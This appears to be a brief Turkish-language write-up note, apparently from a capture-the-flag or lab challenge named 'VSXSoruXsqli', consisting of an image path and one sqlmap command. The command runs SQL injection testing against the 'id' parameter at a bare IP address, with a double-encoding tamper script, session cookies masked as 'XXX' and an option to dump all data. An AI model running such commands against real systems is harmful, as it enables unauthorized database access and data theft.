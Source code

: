 
## Servername ** VSXSoruXsqli **


Bu soru için kullandığım sqlmap parametreleri aşağıda yer almaktadır


`sqlmap.py -u 'http://85.111.95.20:80/index.php?id=1' -p 'id' --beep --tamper=chardoubleencode --cookie='PHPSESSID=XXX;NSC_WT-Tpsv-trmj=XXX' -all`
